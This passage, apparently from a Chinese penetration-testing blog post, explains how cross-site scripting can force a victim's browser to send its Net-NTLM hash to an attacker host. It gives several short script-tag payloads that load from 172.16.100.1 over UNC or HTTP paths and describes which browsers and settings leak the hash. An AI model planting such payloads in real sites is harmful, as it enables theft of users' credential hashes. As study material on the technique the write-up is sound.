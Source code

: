 

## 0x03 XSS

利用xss构造

```HTML
<script src="\\172.16.100.1\xss">
```



![image-20191120204210564](https://p1.ssl.qhimg.com/t01d96892dd9bacd006.png)

这种情况适用于IE和edge，其他浏览器不允许从http域跨到file域，以chrome为例

![image-20191121105038929](https://p0.ssl.qhimg.com/t01b5e489638e741140.png)

我们接下来尝试不通过UNC路径，就xss里面访问http请求来发起认证

把payload 改成

```HTLM
<script src="//172.16.100.1/x">
```

看到跳出认证框，我们也没抓到net-ntlm  hash

![image-20191120210030762](https://p4.ssl.qhimg.com/t01d831a54fc5c0ddf4.png)

不像smb请求直接用当然用户名和密码去登录，发起http请求时，除非该站点的域名位于企业内部网或存在于可信站点列表中。否则都会跳出认证框来让操作者再输入一次。



![image-20191120210251212](https://p5.ssl.qhimg.com/t01cf6050d471e1b07f.png)



当我们选择`自动使用当前用户名和密码登录`就能拿到用户的net-ntlm hash

![image-20191120211056209](https://p5.ssl.qhimg.com/t011c799b3a99410492.png)

就可以抓到用户net-ntlm hash了

![image-20191120211129514](https://p2.ssl.qhimg.com/t01e21b083ca4f5bce3.png)

修改后的配置同样适用于chrome

那至今为止，在默认的配置情况底下，如果有xss，那构造的页面的效果有两种

1. 构造unc，访问smb 协议，但是这种方式的话就只有IE和edge能行

```html
<script src="\\172.16.100.1\xss">
```



2. 构造http，访问http 协议，这种方式并不限制浏览器访问，但是除非该站点的域名位于企业内部网或存在于可信站点列表中，不然是不会使用系统默认的凭据进行登录的，会跳出认证框，让用户填写账号密码。

```html
<script src="//172.16.100.1\xss">
```
